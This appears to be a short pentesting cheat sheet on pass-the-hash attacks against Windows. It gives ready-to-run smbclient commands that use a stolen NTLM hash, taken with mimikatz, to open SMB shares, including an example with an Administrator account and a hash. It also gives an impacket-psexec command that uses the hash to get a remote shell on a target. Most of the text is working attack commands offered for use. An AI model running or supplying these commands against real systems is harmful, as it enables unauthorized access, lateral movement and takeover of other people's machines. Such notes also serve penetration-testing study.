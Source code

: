 ## Pass The Hash
Windows is a ridiculous operating system.

### SMB Shares
Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Reverse Shell
We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```